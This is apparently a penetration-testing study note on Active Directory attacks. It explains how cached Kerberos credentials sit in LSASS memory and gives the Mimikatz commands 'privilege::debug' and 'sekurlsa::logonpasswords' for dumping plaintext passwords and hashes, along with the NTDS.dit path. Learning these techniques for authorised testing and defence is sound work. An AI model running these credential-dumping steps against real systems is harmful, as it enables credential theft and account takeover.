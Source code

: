 # Active Directory Exploitation

Having enumerated user accounts, group memberships, and registered Service Principal Names let's now attempt to use this information to compromise Active Directory.



Start PowerShell as an administrator:
- Windows Run Box: `powershell -Command "Start-Process powershell -Verb RunAs"`
- Executable: `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
- File Explorer: right-click anywhere in the folder and select "Open in Terminal"
- Shortcut: `Win+X` to open context menu and then `a` (Terminal Admin)







In Domain Controller:`C:\Windows\NTDS\ntds.dit` (New Technology Directory Services Directory Information Tree)





## Cached AD Credentials

Since Microsoft's implementation of Kerberos makes use of single sign-on, password hashes must be stored somewhere in order to renew a TGT request.
In modern versions of Windows, these hashes are stored in the Local Security Authority Subsystem Service (LSASS) memory space.

If we gain access to these hashes, we could crack them to obtain the cleartext password or reuse them to perform various actions.

Since the LSASS process is part of the operating system and runs as SYSTEM, we need SYSTEM (or local administrator) permissions to gain access to the hashes stored on a target.






### Mimikatz
Mimikatz is a hacking tool that extracts Windows authentication credentials from memory, including passwords and hashes. It can then use these credentials to gain unauthorized access, escalate privileges, and perform further attacks.\

- <https://github.com/gentilkiwi/mimikatz/wiki/>
- <https://github.com/ParrotSec/mimikatz>
- <https://adsecurity.org/?page_id=1821>


- Use Mimikatz to extract domain hashes on our Windows 11 system
```
# SeDebugPrivlege privilege allow us to interact with a process owned by another account
```
privilege::debug
```




# Dump the credentials of all logged-on users with the Sekurlsa module
# sekurlsa::logonpasswords attempts to extract plaintext passwords and password hashes from all available sources (generates a huge amount of output)
# This should dump hashes for all users logged on to the current workstation or server, including remote logins like Remote Desktop sessions
sekurlsa::logonpasswords


# show the tickets that are stored in memory
```